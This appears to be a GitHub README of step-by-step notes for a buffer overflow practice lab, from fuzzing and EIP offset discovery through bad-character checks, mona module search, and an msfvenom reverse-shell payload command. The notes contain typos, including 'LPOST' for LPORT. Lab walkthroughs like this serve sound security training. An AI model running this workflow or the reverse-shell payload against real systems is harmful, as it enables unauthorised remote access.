 # Buffer Overflow Scripts
Buffer overflow scripts to practice (walkthrough notes)

## 1- Spiking (finding the vulnerable server -crashable service-)

use the command "`generice_send_tcp HOST PORT`" in Kali Linux

Make a file named after the service with the extension of .spk for spike.

>e.g. trun.spk

run `generic_send_tcp <IP> <PORT> trun.spk 0 0` 

if it crashes, then this is our service. 

_____________________________________________________


## 2- Fuzzing (overloading the service and identify the number of bytes it takess to crash it)

here we will use the `fuzzer.py`

>Make sure you edit the IP and PORT

You will get a number of bytes _-where the program crashed-_, then you will used to generate a pattern with `msf-pattern_create` in Kali.
>the -l (Capital L) switch takes the number of bytes.
>e.g. `msf-pattern_create -l 3000`


_____________________________________________________________

## 3- Finding the offset (EIP)
after editing the offset and firing up the `offset.py`, to identify the overwritten EIP we have to take the hex for it. then we will use it with `msf-pattern_offset -l <BYTES> -q <EIP's HEX>`.

the offset will come up, and that what we are gonna use to overwrite the EIP.
_____________________________________________________________

## 4 - Overwriting the EIP (Just to make sure that we made it right)

We will make sure here we wrote the EIP with `eip_set.py`

if the last bytes(of EIP) were Bs _-42424242-_ then we overwrote the EIP successfully.

_____________________________________________________________


## 5 - finding bad characters

here we will try to identify which characters are bad for the shellcode (breaks the code), in order to avoid them. 


run the code `badchars.py`

then follow the ESP in dump and see if there's any badchars (Something that doesn't belong to the hex order).

_____________________________________________________________


## 6- finding the right module (The vulnerable stack)

from github download mona.py and leave it at "C:\programfiles(x86)\immunityinc\immunitydebugger\pycommands"

in the little bar down the Immunity Debugger type: *!mona modules*

notice the falses in the security for the specific service.

locate nasm_shell in linux (this translate the instruction you write into assembly code), it is used to direct the malicious code to be executed. 

type in nasm_shell: JMP ESP 

then in the bar in Immunity Debugger type: 
`!mona find -s "\xff\xe4" -m <vuln service>`

>-m switch is the vulnerable module we identified earlier with !mona modules

then run `module_finder.py`
_____________________________________________________________


## 7- generating shellcoding and gaining root

generate a payload with msfvenom in Kali
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.5.108 LPOST=9999 EXITFUNC=thread -f c -a x86 -b "\x00"`
>-f switch for format,
>-a switch for architechture,
>-b switch for bad characters.

copy the payload to `shellcode.py` and fire it up. 

Enjoy your shell!
